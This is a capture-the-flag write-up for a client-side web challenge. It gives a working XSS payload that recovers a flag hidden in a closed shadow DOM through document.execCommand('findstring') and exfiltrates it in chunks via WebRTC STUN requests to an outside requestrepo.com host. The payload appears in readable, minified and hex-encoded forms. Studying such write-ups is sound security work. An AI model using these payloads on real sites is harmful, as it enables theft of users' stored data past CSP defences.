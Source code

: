 ```yaml
---
title: TRX CTF 25 - Baby Sandbox
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- web
- client side
- shadow DOM
- iframe
authors:
- babelo
---
```


This is an easy client-side challenge

## Overview

We're given a few files
 - `server.js`: Contains the server code. We can see that the server serves files with a strict CSP:
```js
app.use((req, res, next) => {
    res.setHeader("Content-Security-Policy", "default-src 'none'; frame-ancestors 'none'; base-uri 'none'; form-action 'none'; script-src 'self' 'unsafe-inline';");
    next()
})
```

 - `iframe.ejs`: A simple HTML file with an obvious HTML injection:
```js
      let d = document.createElement("div");
      d.innerHTML = "<%= payload %>";
      document.body.appendChild(d);
```
 - `index.ejs`: The content of `index.ejs` will be put inside an iframe

 - `bot.js`: Contains the bot code. It's clear that the flag will be stored in local storage. We can supply a payload to the `visit` function, which will then be viewed by the bot. Note that the bot will sleep for a short period after viewing our payload.

Finally, before inserting our payload, the flag will be placed inside a closed [shadow DOM](https://developer.mozilla.org/en-US/docs/Web/API/Web_components/Using_shadow_DOM), making it inaccessible from JavaScript.

To bypass this restriction, we can use a deprecated feature: [document.execCommand](https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand)

Specifically, we can use a lesser-known command: `findstring`:
 - `document.execCommand("findstring", false, <substring>)`, returns true if the substring is found, and false otherwise. I found it [here](https://chromium.googlesource.com/chromium/src/+/refs/tags/131.0.6778.244/third_party/blink/renderer/core/editing/commands/editor_command_names.h)


After brute-forcing the flag, we can split it into chunks and exfiltrate it using WebRTC or any other method that does not violate the CSP.

Note: since our payload will be escaped, we had to encode it using the following function
```js
def encode(payload):
    result = ""
    for c in payload:
        result += "\\x" + hex(ord(c))[2:].zfill(2)
    return result
```

## Final Exploit
```js
(() => {
    function toHex(str) {
        let hex = '';
        for(let i = 0; i < str.length; i++) {
            hex += str.charCodeAt(i).toString(16);
        }
        return hex;
    }

    let flag = "TRX{";
    let charset = "abcdefghijklmnopqrstuvwxyz0123456789_{}";
    for(let i = 0; i < 128; i++){
        for(let c in charset){
            res = document.execCommand("findstring", false, flag+charset[c]);
            if(res){
                flag += charset[c];
                break;
            }
        }
    }

    let chunkSize = 4;
    for (let i = 0; i < flag.length; i += chunkSize) {
        let chunk = flag.substring(i, i + chunkSize);
        console.log(chunk);
        let pc = new RTCPeerConnection({"iceServers":[{"urls":["stun:" + toHex(chunk) + "." + i + ".az5f3of1.requestrepo.com"]}]});
        pc.createOffer({offerToReceiveAudio:1}).then(o => pc.setLocalDescription(o)).catch(e => console.error(e));
    }
    })();
```

You can then compress this and put it inside an `img` tag:
```html
<img src="#" onerror='(()=>{let o="TRX{";var r="abcdefghijklmnopqrstuvwxyz0123456789_{}";for(let e=0;e<128;e++)for(var t in r)res=document.execCommand("findstring",!1,o+r[t]),res&&(o+=r[t]);for(let e=0;e<o.length;e+=4){var n=o.substring(e,e+4);console.log(n);let r=new RTCPeerConnection({iceServers:[{urls:["stun:"+function(r){let o="";for(let e=0;e<r.length;e++)o+=r.charCodeAt(e).toString(16);return o}(n)+"."+e+".az5f3of1.requestrepo.com"]}]});r.createOffer({offerToReceiveAudio:1}).then(e=>r.setLocalDescription(e)).catch(e=>console.error(e))}})();'>
```

Encoded payload:
```js
\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x22\x23\x22\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x27\x28\x28\x29\x3d\x3e\x7b\x6c\x65\x74\x20\x6f\x3d\x22\x54\x52\x58\x7b\x22\x3b\x76\x61\x72\x20\x72\x3d\x22\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x5f\x7b\x7d\x22\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x31\x32\x38\x3b\x65\x2b\x2b\x29\x66\x6f\x72\x28\x76\x61\x72\x20\x74\x20\x69\x6e\x20\x72\x29\x72\x65\x73\x3d\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x65\x78\x65\x63\x43\x6f\x6d\x6d\x61\x6e\x64\x28\x22\x66\x69\x6e\x64\x73\x74\x72\x69\x6e\x67\x22\x2c\x21\x31\x2c\x6f\x2b\x72\x5b\x74\x5d\x29\x2c\x72\x65\x73\x26\x26\x28\x6f\x2b\x3d\x72\x5b\x74\x5d\x29\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x6f\x2e\x6c\x65\x6e\x67\x74\x68\x3b\x65\x2b\x3d\x34\x29\x7b\x76\x61\x72\x20\x6e\x3d\x6f\x2e\x73\x75\x62\x73\x74\x72\x69\x6e\x67\x28\x65\x2c\x65\x2b\x34\x29\x3b\x63\x6f\x6e\x73\x6f\x6c\x65\x2e\x6c\x6f\x67\x28\x6e\x29\x3b\x6c\x65\x74\x20\x72\x3d\x6e\x65\x77\x20\x52\x54\x43\x50\x65\x65\x72\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x28\x7b\x69\x63\x65\x53\x65\x72\x76\x65\x72\x73\x3a\x5b\x7b\x75\x72\x6c\x73\x3a\x5b\x22\x73\x74\x75\x6e\x3a\x22\x2b\x66\x75\x6e\x63\x74\x69\x6f\x6e\x28\x72\x29\x7b\x6c\x65\x74\x20\x6f\x3d\x22\x22\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x72\x2e\x6c\x65\x6e\x67\x74\x68\x3b\x65\x2b\x2b\x29\x6f\x2b\x3d\x72\x2e\x63\x68\x61\x72\x43\x6f\x64\x65\x41\x74\x28\x65\x29\x2e\x74\x6f\x53\x74\x72\x69\x6e\x67\x28\x31\x36\x29\x3b\x72\x65\x74\x75\x72\x6e\x20\x6f\x7d\x28\x6e\x29\x2b\x22\x2e\x22\x2b\x65\x2b\x22\x2e\x61\x7a\x35\x66\x33\x6f\x66\x31\x2e\x72\x65\x71\x75\x65\x73\x74\x72\x65\x70\x6f\x2e\x63\x6f\x6d\x22\x5d\x7d\x5d\x7d\x29\x3b\x72\x2e\x63\x72\x65\x61\x74\x65\x4f\x66\x66\x65\x72\x28\x7b\x6f\x66\x66\x65\x72\x54\x6f\x52\x65\x63\x65\x69\x76\x65\x41\x75\x64\x69\x6f\x3a\x31\x7d\x29\x2e\x74\x68\x65\x6e\x28\x65\x3d\x3e\x72\x2e\x73\x65\x74\x4c\x6f\x63\x61\x6c\x44\x65\x73\x63\x72\x69\x70\x74\x69\x6f\x6e\x28\x65\x29\x29\x2e\x63\x61\x74\x63\x68\x28\x65\x3d\x3e\x63\x6f\x6e\x73\x6f\x6c\x65\x2e\x65\x72\x72\x6f\x72\x28\x65\x29\x29\x7d\x7d\x29\x28\x29\x3b\x27\x3e
```

